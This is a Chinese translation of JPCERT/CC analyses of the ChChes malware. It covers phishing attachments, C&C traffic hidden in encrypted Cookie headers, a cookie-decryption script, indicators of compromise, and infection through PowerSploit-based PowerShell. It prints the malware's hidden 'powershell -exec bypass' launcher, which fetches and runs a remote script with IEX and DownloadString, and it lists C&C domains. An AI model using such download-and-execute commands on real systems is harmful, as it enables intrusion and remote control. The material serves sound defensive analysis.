

# 【木马分析】ChChes – 使用Cookie头与C&amp;C服务器通信的恶意软件


                                阅读量   
                                **92542**
                            
                        |
                        
                                                                                                                                    
                                                                                            


##### 译文声明

本文是翻译文章，文章原作者，文章来源：jpcert.or.jp
                                <br>原文地址：[http://blog.jpcert.or.jp/2017/02/chches-malware--93d6.html](http://blog.jpcert.or.jp/2017/02/chches-malware--93d6.html)

译文仅供参考，具体内容表达以及含义原文为准

****

[](./img/85676/t01287ab1bb53081a8d.jpg)

翻译：[啦咔呢](http://bobao.360.cn/member/contribute?uid=79699134)

预估稿费：200RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿


**ChChes – 使用Cookie头与C＆C服务器通信的恶意软件**

自2016年10月以来，JPCERT/CC已经确认了发送到日本组织的电子邮件中，包含着一个带有可执行文件的ZIP附件。这些邮件假冒真实存在的发送人，从日本境内一个免费的邮件地址服务器发送。另外，这个可执行文件的图标伪装成为Word文档。当收件人执行文件时，计算机就感染了名叫ChChes的恶意软件。

因此，这篇博客文章将会着重介绍ChChes的特性，包括它的通讯。

<br>

**附加到目标邮件的ZIP文件**

在这个案例中，虽然附加到目标邮件的一些ZIP文件中仅包含了可执行文件，但在某些情况下，它们也还包含着一些伪造的Word文档。下面是后一种情况的例子。

[](https://p5.ssl.qhimg.com/t0136e77810b4eb359e.png)

图1：附加ZIP文件示例

在上面的示例中，列出了两个具有相似名称的文件：一个伪造的Word文档和一个图标伪装成Word文档的可执行文件。通过运行此可执行文件，机器将会感染ChChes病毒。JPCERT / CC已确认这个可执行文件是经过特定签名证书签发的。伪造Word文档是无害的，它是一篇名叫“为什么唐纳德•特朗普会获胜”的在线文章。代码签名证书的详细信息会在附录A中描述。

<br>

**ChChes的通讯**

ChChes是一种恶意软件，它使用HTTP与特定站点通信以接收命令和模块。ChChes本身可以执行的函数很少。这意味着它通过从C＆C服务器接收模块并将其加载到内存上来扩展其功能。

以下是ChChes发送的HTTP GET请求的示例。有时，使用HEAD方法而不是GET。


```
GET /X4iBJjp/MtD1xyoJMQ.htm HTTP/1.1
Cookie: uHa5=kXFGd3JqQHMfnMbi9mFZAJHCGja0ZLs%3D;KQ=yt%2Fe(omitted)
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: [user agent]
Host: [host name]
Connection: Keep-Alive
Cache-Control: no-cache
```

可以看到，HTTP请求的路径采用/ [随机字符串] .htm，但是，Cookie字段的值不是随机的，而是与C＆C服务器通信中使用的实际数据对应的加密字符串。该值可以使用以下Python脚本解密。


```
data_list = cookie_data.split(';')
dec = []
for i in range(len(data_list)):
    tmp = data_list[i]
    pos = tmp.find("=")
    key = tmp[0:pos]
    val = tmp[pos:]
    md5 = hashlib.md5()
    md5.update(key)
    rc4key = md5.hexdigest()[8:24]
    rc4 = ARC4.new(rc4key)
    dec.append(rc4.decrypt(val.decode("base64"))[len(key):])
print("[*] decoded: " + "".join(dec))
```

以下是机器感染后的通信流程。

[](https://p0.ssl.qhimg.com/t0143e926b666563b1a.jpg)

图2通讯流程

**<br>**

**第一个请求**

ChChes首次发送的HTTP请求（请求1）的Cookie字段中的值包含以“A”开头的加密数据。以下是发送数据的示例。

[](https://p3.ssl.qhimg.com/t017fd7c00b93de23c3.jpg)

图3：第一个数据发送的示例

如图3所示，发送的数据包含着计算机名称的信息。加密数据的格式因ChChes的版本而异。详情载于附录B。

作为对请求1的响应，ChChes从C＆C服务器接收并识别受感染机器ID的字符串（响应1）。该ID包含在Set-Cookie字段中，如下所示。

[](https://p1.ssl.qhimg.com/t01f83c2c05679de19f.jpg)

图4：对第一个请求的响应示例

<br>

**请求模块和命令**

接下来，ChChes发送HTTP请求以接收模块和命令（请求2）。此时，以“B”开头的以下数据被加密并包含在Cookie字段中。

```
B[ID to identify the infected machine]
```

作为对请求2的响应，从C＆C服务器发送加密的模块和命令（响应2）。下面显示了解密后接收的模块和命令的示例。

[](https://p1.ssl.qhimg.com/t0169c46983089d7f9d.jpg)

图5：接收的模块和命令的解密数据

命令与模块一起作为整体数据（如上所述）或单独发送。然后，将接收到命令的执行结果发送到C＆C服务器，并且返回到接收模块和命令的处理。这样，通过重复接收来自C＆C服务器的命令，受感染的机器将被远程控制。

JPCERT / CC的研究已经确认具有以下功能的模块，这些功能被认为是ChChes的bot功能。

使用AES加密通信

执行shell命令

上传文件

下载文件

加载和运行DLL

查看bot命令的任务

此外还证实了，在感染后相对较早阶段接收到了用AES加密通信的模块。也就是使用此功能，在此之后与C＆C服务器的通信将在现有加密方法之上使用AES加密。

<br>

**小结**

自2016年10月以来，ChChes是一种相对较新的恶意软件。由于这可能会持续用于有针对性的攻击，JPCERT / CC将密切关注ChChes和使用恶意软件进行攻击活动。

这里演示的样本的哈希值在附录C中描述.JPICERT / CC已经确认的恶意软件的目标主机在附录D中列出。我们建议您检查您的机器是否正在与这些主机通信。

谢谢阅读。


**附录A：代码签名证书**

附加到一些示例的代码签名证书如下：


```
$ openssl x509 -inform der -text -in mal.cer 
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            3f:fc:eb:a8:3f:e0:0f:ef:97:f6:3c:d9:2e:77:eb:b9
    Signature Algorithm: sha1WithRSAEncryption
        Issuer: C=US, O=VeriSign, Inc., OU=VeriSign Trust Network, OU=Terms of use at https://www.verisign.com/rpa (c)10, CN=VeriSign Class 3 Code Signing 2010 CA
        Validity
            Not Before: Aug  5 00:00:00 2011 GMT
            Not After : Aug  4 23:59:59 2012 GMT
        Subject: C=IT, ST=Italy, L=Milan, O=HT Srl, OU=Digital ID Class 3 - Microsoft Software Validation v2, CN=HT Srl
        Subject Public Key Info:
(Omitted)
```

[](https://p5.ssl.qhimg.com/t01d9049b1cd4f60f95.png)

图6：代码签名证书

<br>

**附录B：ChChes版本**

下图显示了JPCERT / CC已经确认的ChChes样本版本号与从其PE头获取的编译时间之间的关系。

[](https://p2.ssl.qhimg.com/t0152679029555df1d7.jpg)

图7：每个ChChes版本的编译时间

下面的列表描述了第一个HTTP请求中包含的加密数据以及每个ChCes版本的值的说明。

表1：每个版本的发送格式

[](https://p0.ssl.qhimg.com/t01be62d8c563b67f6c.png)

表2：&lt;a&gt;至&lt;h&gt;的描述

[](https://p4.ssl.qhimg.com/t0189091ebc5b2830da.png)

<br>

**附录C：SHA-256样本的哈希值**

ChChes


```
5961861d2b9f50d05055814e6bfd1c6291b30719f8a4d02d4cf80c2e87753fa1
ae6b45a92384f6e43672e617c53a44225e2944d66c1ffb074694526386074145
2c71eb5c781daa43047fa6e3d85d51a061aa1dfa41feb338e0d4139a6dfd6910
19aa5019f3c00211182b2a80dd9675721dac7cfb31d174436d3b8ec9f97d898b
316e89d866d5c710530c2103f183d86c31e9a90d55e2ebc2dda94f112f3bdb6d
efa0b414a831cbf724d1c67808b7483dec22a981ae670947793d114048f88057
e90064884190b14a6621c18d1f9719a37b9e5f98506e28ff0636438e3282098b
9a6692690c03ec33c758cb5648be1ed886ff039e6b72f1c43b23fbd9c342ce8c
bc2f07066c624663b0a6f71cb965009d4d9b480213de51809cdc454ca55f1a91
e6ecb146f469d243945ad8a5451ba1129c5b190f7d50c64580dbad4b8246f88e
e88f5bf4be37e0dc90ba1a06a2d47faaeea9047fec07c17c2a76f9f7ab98acf0
d26dae0d8e5c23ec35e8b9cf126cded45b8096fc07560ad1c06585357921eeed
2965c1b6ab9d1601752cb4aa26d64a444b0a535b1a190a70d5ce935be3f91699
312dc69dd6ea16842d6e58cd7fd98ba4d28eefeb4fd4c4d198fac4eee76f93c3
4ff6a97d06e2e843755be8697f3324be36e1ebeb280bb45724962ce4b6710297
45d804f35266b26bf63e3d616715fc593931e33aa07feba5ad6875609692efa2
cb0c8681a407a76f8c0fd2512197aafad8120aa62e5c871c29d1fd2a102bc628
75ef6ea0265d2629c920a6a1c0d1dd91d3c0eda86445c7d67ebb9b30e35a2a9f
471b7edbd3b344d3e9f18fe61535de6077ea9fd8aa694221529a2ff86b06e856
ae0dd5df608f581bbc075a88c48eedeb7ac566ff750e0a1baa7718379941db86
646f837a9a5efbbdde474411bb48977bff37abfefaa4d04f9fb2a05a23c6d543
3d5e3648653d74e2274bb531d1724a03c2c9941fdf14b8881143f0e34fe50f03
9fbd69da93fbe0e8f57df3161db0b932d01b6593da86222fabef2be31899156d
723983883fc336cb575875e4e3ff0f19bcf05a2250a44fb7c2395e564ad35d48
f45b183ef9404166173185b75f2f49f26b2e44b8b81c7caf6b1fc430f373b50b
```


**附录D：通信目标地址列表**


```
area.wthelpdesk.com
dick.ccfchrist.com
kawasaki.cloud-maste.com
kawasaki.unhamj.com
sakai.unhamj.com
scorpion.poulsenv.com
trout.belowto.com
zebra.wthelpdesk.com
hamiltion.catholicmmb.com
```


**利用PowerSploit的恶意软件**

嗨，又见面了，我是来自分析中心的Shusei Tomonaga。

在本文中，我想分享一些关于ChChes的研究成果（我们在上文中有介绍），它利用PowerSploit [1] ，一个开源工具，来达到感染的目的。

<br>

**ChChes感染流**

JPCERT / CC已经确认了样本是通过利用打开文件快捷方式进而感染机器。如图1所示，是从受害者打开文件快捷方式直到机器被感染的事件流。

图1：从打开快捷方式文件到ChChes感染的事件流

[](https://p1.ssl.qhimg.com/t015a964922975af5ca.png)

当打开文件快捷方式时，从外部服务器下载的一个包含PowerShell脚本的文件，也就随之被执行。接下来，包含在PowerShell脚本中的ChChes代码（版本1.6.4）注入powershell.exe并执行。每个阶段的详细行为描述如下。

<br>

**打开文件快捷方式后的行为**

打开文件快捷方式时，包含在文件中的PowerShell脚本也随之被启动。

```
powershell.exe -nop -w hidden -exec bypass  -enc JAAyAD0AJwAtAG4Abw ~omitted~
```

“-enc”之后的PowerShell脚本被加密。下面是解码的脚本：

```
$2='-nop -w hidden -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString(''https://goo.gl/cpT1NW'')"';if([IntPtr]::Size -eq 8){$3 = $env:SystemRoot + "syswow64WindowsPowerShellv1.0powershell";iex "&amp; $3 $2";}else{iex "&amp; powershell $2";}
```

通过执行上述PowerShell脚本，从指定的URL下载了包含PowerShell脚本的文件。下载的脚本在32位的powershell.exe（syswow64  WindowsPowerShell  v1.0  powershell）中加载并执行。以32位执行的原因是包含在PowerShell脚本中的ChChes的汇编代码与64位环境不兼容。

<br>

**下载的PowerShell脚本的详细信息**

下载的PowerShell脚本部分是从PowerSploit（Invoke-Shellcode.ps1）复制的。PowerSploit是一个在远程主机上执行文件和命令的工具，被用于渗透测试。

下载的PowerShell脚本执行时，它将基于脚本中所包含的数据创建出一个文档文件，这个文档存储在％TEMP％文件夹中并且被没有隐藏。我们已经看到了不同类型的文档，包括Excel和World文档。

接下来，PowerShell中包含的ChChes代码被注入到powershell.exe中。注入的ChChes从C2服务器接收命令和模块，如上一篇博文所述。PowerShell脚本和注入的ChChes不会保存为受感染机器中的文件，ChChes本身只存在于内存中。

图2是PowerShell脚本的一部分。

图2：下载的PowerShell脚本

[](https://p5.ssl.qhimg.com/t0102d2133a5da0e8fb.png)

<br>

**通过事件日志确认攻击痕迹**

在安装了PowerShell v5.0的环境（包括Windows 10）中，从远程服务器下载的PowerShell脚本将以默认设置记录在事件日志中（如图3所示）。当你回查时，请检查你的日志是否包含此类记录。

图3：在事件日志中记录的内容

[](https://p0.ssl.qhimg.com/t011f172a4835a7e791.png)

此类日志还可以通过启用以下组策略在PowerShell v4.0（Windows 8.1的默认版本）中获取。

计算机配置 – &gt;管理模板 – &gt; Windows组件 – &gt; Windows PowerShell – &gt;打开PowerShell脚本块日志记录

<br>

**总结**

现在很普遍的是PowerShell脚本被用于攻击。如果您的事件日志配置未设置为记录PowerShell执行，建议您修改设置以准备应对此类攻击。此外，如果您不使用PowerShell，建议通过使用AppLocker等限制执行。

Shusei Tomonaga


**参考文献**

[1] PowerSploit [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) 

<br>

**附录A：样本的SHA-256哈希值**

PowerShell脚本


```
4ff6a97d06e2e843755be8697f3324be36e1ebeb280bb45724962ce4b6710297
75ef6ea0265d2629c920a6a1c0d1dd91d3c0eda86445c7d67ebb9b30e35a2a9f
ae0dd5df608f581bbc075a88c48eedeb7ac566ff750e0a1baa7718379941db86
646f837a9a5efbbdde474411bb48977bff37abfefaa4d04f9fb2a05a23c6d543
3d5e3648653d74e2274bb531d1724a03c2c9941fdf14b8881143f0e34fe50f03
9fbd69da93fbe0e8f57df3161db0b932d01b6593da86222fabef2be31899156d
723983883fc336cb575875e4e3ff0f19bcf05a2250a44fb7c2395e564ad35d48
f45b183ef9404166173185b75f2f49f26b2e44b8b81c7caf6b1fc430f373b50b
471b7edbd3b344d3e9f18fe61535de6077ea9fd8aa694221529a2ff86b06e856
aef976b95a8d0f0fdcfe1db73d5e0ace2c748627c1da645be711d15797c5df38
dbefa21d3391683d7cc29487e9cd065be188da228180ab501c34f0e3ec2d7dfc
```
